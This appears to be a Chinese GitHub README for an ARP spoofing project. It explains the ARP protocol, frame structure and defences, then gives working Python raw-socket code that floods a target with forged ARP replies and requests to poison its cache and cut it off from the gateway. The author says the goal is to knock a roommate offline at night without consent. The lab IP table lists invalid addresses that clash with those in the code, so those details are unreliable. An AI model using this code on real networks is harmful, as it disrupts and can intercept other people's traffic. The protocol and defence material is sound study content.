



# ArpAttack

事情的起因是，朋友抱怨室友半夜打游戏，敲键盘还说话，不胜烦燥，拜托我想个办法让他半夜玩不了游戏。思来想去，最好的办法就是ARP断网攻击了。

趁此机会，正好复习一下计算机网络的知识。

虽然例如kali有成熟的工具，python也有强大的scapy网络库，但本次实验主要从底层学习掌握ARP协议的相关知识，使用套接字自定义构造数据包。

**注意事项：**

> **ARP 欺骗和伪造网络流量可能违反法律和道德准则，仅在合法授权和合规测试的情况下才能使用。**


# 一、ARP

## ARP是什么

> ARP（Address Resolution Protocol），即地址解析协议，是根据IP地址获取物理地址的一个TCP/IP协议。主机发送信息时将包含目标IP地址的ARP请求广播到局域网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。


## 为什么要用ARP

> 在网络的数据链路层只能看见 MAC 帧，链路层以上的数据都被封装在 MAC 帧中，MAC 帧包含源 MAC 地址和目的MAC 地址，在实际局域网络中传送数据时，根据 MAC 地址寻找目的主机。已知一台主机的 IP 地址，要发送数据时需要找到对方的 MAC 地址，这时就需要用到 ARP。ARP 负责将网络层中的 IP 地址解析为链路层的 MAC 地址。


## ARP工作流程

1. 当一个设备想要与网络上的另一个设备通信时，它会首先检查自己的ARP缓存（ARP缓存是存储IP地址和对应MAC地址的本地缓存）是否已经有了所需设备的MAC地址。
2. 如果ARP缓存中不存在对应的MAC地址，设备将发送一个ARP请求广播到网络上的所有设备，询问拥有特定IP地址的设备的MAC地址。
3. 拥有特定IP地址的设备接收到ARP请求后，会通过ARP响应将自己的MAC地址发送回请求设备，而不相关的设备则会丢弃ARP请求。
4. 请求设备接收到响应后，将会在ARP缓存中保存这个IP地址与MAC地址的映射关系，以便将来的通信使用。


## ARP报文结构

ARP报文主要由以太网帧和ARP帧构成

以太网帧：

| 字段 |   长度（字节）  |  描述    |
| ---- | ---- | ---------------- |
| 目标MAC地址 | 6 | 目标设备的MAC地址 |
| 源MAC地址 | 6 | 发送设备的MAC地址 |
| 协议类型 | 2 | ARP协议为0806 |

ARP帧：

| 字段          | 长度（字节） | 描述    |
| ------------- | ------------ | ------------------------------ |
| 硬件类型      | 2            | 指定网络接口的硬件类型，如以太网|
| 协议类型      | 2            | 指定上层协议类型，如IPv4   |
| 硬件地址长度  | 1            | 指定硬件地址长度（以字节为单位），如MAC地址长度为6字节  |
| 协议地址长度  | 1            | 指定协议地址长度（以字节为单位），如IPv4地址长度为4字节 |
| 操作码        | 2            | 指定操作类型，如ARP请求或ARP响应（或RARP请求响应） |
| 发送方MAC地址 | 6            | 发送方的MAC地址 |
| 发送方IP地址  | 4            | 发送方的IP地址  |
| 目标MAC地址   | 6            | 目标设备的MAC地址（对于ARP请求，该字段为0）  |
| 目标IP地址    | 4            | 目标设备的IP地址 |


## 抓包验证

工具：Wireshark

目标：ARP协议

ARP请求：


ARP响应：


# 二、ARP攻击

## 三种攻击手段

1. ARP断网攻击：污染靶机的ARP缓存表，使得靶机无法正确发送数据包

   1.1 伪造ARP请求

   1.2 伪造ARP响应

2. ARP中间人攻击：打开流量转发，使得靶机流量经过估计设备转发至网关，达到嗅探等攻击行为

（中间人攻击略微复杂，后续有时间再复现更新）


## ARP防御

1. 静态 ARP 表项：在网络设备上配置静态 ARP 表项，将 IP 地址与相应的 MAC 地址进行绑定。这样可以防止 ARP 欺骗攻击者伪造 ARP 响应包来欺骗网络设备。
2. ARP 监控和检测：实施 ARP 监控和检测机制，及时发现异常的 ARP 请求和响应，以便识别潜在的 ARP 攻击。可以使用网络入侵检测系统（IDS）或专用的 ARP 监测工具来进行实时监控。
3. 交换机安全设置：在交换机上启用端口安全功能，限制每个端口所允许的 MAC 地址数量，防止攻击者通过伪造 MAC 地址来进行 ARP 攻击。
4. 防火墙设置：在防火墙上设置适当的规则，限制对网络的未经授权的 ARP 请求和响应流量。只允许合法的主机进行 ARP 通信。


## 正常的ARP流程




## ARP攻击时的流程




## 构造攻击报文

ARP攻击下的以太网帧：

```txt
目标MAC地址: 靶机的MAC地址
源MAC地址: 攻击者设备的MAC地址
类型字段: 0806 (ARP)
```

ARP攻击下的ARP帧：

```txt
硬件类型: 以太网 (1)
协议类型: IPv4 (0800)
硬件地址长度: 6
协议地址长度: 4
操作码: 伪造的操作码，通常是请求（0001）（Request）或应答（0002）（Reply）中的一个
发送方MAC地址: 攻击者设备的MAC地址
发送方IP地址: 一般为网关IP
目标MAC地址: 靶机MAC地址
目标IP地址: 靶机IP地址
```

其中，`攻击者设备IP`，`MAC地址`和`网关IP地址`很容易就可以得到，需要获取的是`靶机的IP和MAC地址`，

目标设备IP就靠猜吧（x

用工具扫一下网段，挑选一个幸运儿当靶机

至于目标的MAC地址，可以选择发送一个正常的ARP报文来询问

总流程：




# 三、代码验证

+ 语言：Python
+ 第三方库：psutil

+ 平台：靶机：Windows物理机 + 攻击者：Ubuntu18.04虚拟机

（Windows对原始套接字收发限制很大，很难完成整个攻击流程，因此在Linux上进行实验）


## 构造ARP-SOCKET

1、使用原始套接字(raw_socket)来自定义套接字：

```python
import socket

# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW)
# 绑定到指定的网络接口
raw_socket.bind(("eth0", 0))
# 自定义数据包
packet = b''
# 发送数据包
raw_socket.send(packet)
# 接收数据包（可选）
received_packet = raw_socket.recv(2048)
```

因为使用原始套接字是一种危险的，不受保护的行为，所以调用该代码需要管理员权限，否则可能报错：`以一种访问权限不允许的方式访问套接字`


2、构造ARP数据包：

```python
# 构建自定义的数据包结构
class ARP:
    def __init__(self, destination_mac: bytes, source_mac: bytes, opcode: bytes, 
                sender_mac: bytes, sender_ip: bytes, target_mac: bytes, target_ip: bytes) -> None:
        # 以太网帧
        self.destination_mac = destination_mac  # 目标MAC地址
        self.source_mac = source_mac  # 源MAC地址
        self.proto_type_eth = b'\x08\x06'  # 上层协议类型，0806表示ARP协议
        # ARP帧
        self.hardware_type = b'\x00\x01'  # 网络设备的硬件类型，0001表示以太网
        self.proto_type_arp = b'\x08\x00'  # 网络层协议类型，0800表示IPv4
        self.hardware_size = b'\x06'  # 硬件地址长度
        self.proto_size = b'\x04'  # 协议地址长度
        self.opcode = opcode  # 操作码，0001为ARP请求，0002为ARP响应，0003为RARP
        self.sender_mac = sender_mac  # 发送方的MAC地址
        self.sender_ip = sender_ip  # 发送方的IP地址
        self.target_mac = target_mac  # 目标的MAC地址
        self.target_ip = target_ip  # 目标的IP地址

        # 总数据包
        self.packet = self.destination_mac + self.source_mac + self.proto_type_eth + \
            self.hardware_type + self.proto_type_arp + self.hardware_size + \
            self.proto_size + self.opcode + self.sender_mac + \
            self.sender_ip + self.target_mac + self.target_ip
```


3、功能函数：

```python
# 将IP和MAC转化为十六进制字节对象
def toHex(type: int, data: str) -> bytes:
    hex_ = b''
    if type == 0:  # ip
        ip_int = int.from_bytes(socket.inet_aton(data), byteorder='big')
        hex_str = hex(ip_int)[2:]
        hex_str = hex_str.zfill(8)
        hex_ = bytes.fromhex(hex_str)
    elif type == 1:  # mac
        mac_address = data.replace(':', '').replace('-', '')
        # 将十六进制字符串转换为字节对象
        hex_ = bytes.fromhex(mac_address)
    return hex_

# 获取本机网络信息
def get_net_info():
    dic = psutil.net_if_addrs()
    ipv4 = ipv6 = mac = ""
    for adapter in dic:
        if "ens33" not in adapter:
            continue
        snicList = dic[adapter]
        mac = '无 mac 地址'
        ipv4 = '无 ipv4 地址'
        ipv6 = '无 ipv6 地址'
        for snic in snicList:
            if snic.family.name in {'AF_LINK', 'AF_PACKET'}:
                mac = snic.address
            elif snic.family.name == 'AF_INET':
                ipv4 = snic.address
            elif snic.family.name == 'AF_INET6':
                ipv6 = snic.address
        # print('%s, %s, %s, %s' % (adapter, mac, ipv4, ipv6))
    return (ipv4, mac)
```


## 实验环境：

| 环境 |      物理机       |      虚拟机       |
| :--: | :---------------: | :---------------: |
|  IP  |   192.168.257.1   |  192.168.257.158  |
| MAC  | `00:50:56:c0:00:08` | `00:0c:29:ab:e7:82` |
| 网关 |   192.168.257.2   |   192.168.257.2   |


## ARP请求测试

```python
ip_target = "192.168.237.1"
# 获取本机信息
ipv4, mac = get_net_info()
print(f'本机IP: {ipv4}\n本机MAC: {mac}\n目标IP:{ip_target}')
ipv4_self = toHex(0, ipv4)
mac_self = toHex(1, mac)
# arp请求
arp_request = ARP(b'\xff\xff\xff\xff\xff\xff',  # 广播
                  mac_self,
                  b'\x00\x01',  # 操作码：请求
                  mac_self,
                  ipv4_self,
                  b'\x00\x00\x00\x00\x00\x00',  # 未知
                  toHex(0, ip_target))  # 目标IP地址
# arp_request.packets()

# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
# 绑定到指定的网络接口
raw_socket.bind(("ens33", 0))
raw_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
raw_socket.send(arp_request.packet)
```

wireshark抓包结果：


成功发送了ARP请求，并得到了响应


## ARP攻击测试-伪造响应

```python
ip_target = "192.168.237.1"
mac_target = toHex(1, "00:50:56:c0:00:08")
ip_gate = toHex(0, "192.168.237.2")
# 获取本机信息
ipv4, mac = get_net_info()
print(f'本机IP: {ipv4}\n本机MAC: {mac}\n目标IP:{ip_target}')
ipv4_self = toHex(0, ipv4)
mac_self = toHex(1, mac)
# arp攻击
arp_attact = ARP(mac_target,
                 mac_self,
                 b'\x00\x02',  # 操作码：响应
                 mac_self,  # 攻击者MAC地址
                 ip_gate,  # 网关IP地址
                 mac_target,
                 toHex(0, ip_target))
# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
# 绑定到指定的网络接口
raw_socket.bind(("ens33", 0))
print(arp_attact.packet.hex())
while True:
    print("attacking...")
    raw_socket.send(arp_attact.packet)
    time.sleep(3)
```

运行截图：


wireshark抓包结果：


不断向物理机灌输错误理念（

arp -a查看ARP缓存表：


网关和攻击者的MAC地址已经一样了，达到了攻击目的，此时物理机向网关发送的一切数据都会错误发送到攻击者设备上

一段时间后，MAC的重复缓存被发现：


网关的ARP记录被自动删除，达到修复的目的


## ARP攻击测试-伪造请求

在ARP帧中的sender IP和sender MAC字段写入错误数据

由于此时网关ARP数据已经被缓存，使用伪造请求注入错误网关会导致缓存重复，会被自动删除，这里使用一个并没有被使用的IP：`192.168.237.111`

```python
ip_target = "192.168.237.1"
# 获取本机信息
ipv4, mac = get_net_info()
print(f'本机IP: {ipv4}\n本机MAC: {mac}\n目标IP:{ip_target}')
ipv4_self = toHex(0, "192.168.237.111")
mac_self = toHex(1, mac)
# arp请求
arp_request = ARP(b'\xff\xff\xff\xff\xff\xff',  # 广播
                  mac_self,
                  b'\x00\x01',  # 操作码：请求
                  mac_self,  #错误的sender MAC，这里为攻击者的MAC地址
                  ipv4_self,  # 错误的sender IP，这里为网关IP地址
                  b'\x00\x00\x00\x00\x00\x00',  # 未知
                  toHex(0, ip_target))  # 目标IP地址
# arp_request.packets()

# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
# 绑定到指定的网络接口
raw_socket.bind(("ens33", 0))
raw_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
raw_socket.send(arp_request.packet)
```

攻击之前的ARP缓存表：


发起攻击，wireshark结果：


ARP缓存表：


成功让靶机认为该IP存在


# 四、参考资料

+ [基于Scapy的传统网络攻击实现](https://blog.csdn.net/a1379292747/article/details/126852794)

+ [浅谈基于ARP协议的网络攻击](https://zhuanlan.zhihu.com/p/321384978)

+ [ARP协议与ARP地址欺骗防护](https://www.freebuf.com/vuls/338603.html)

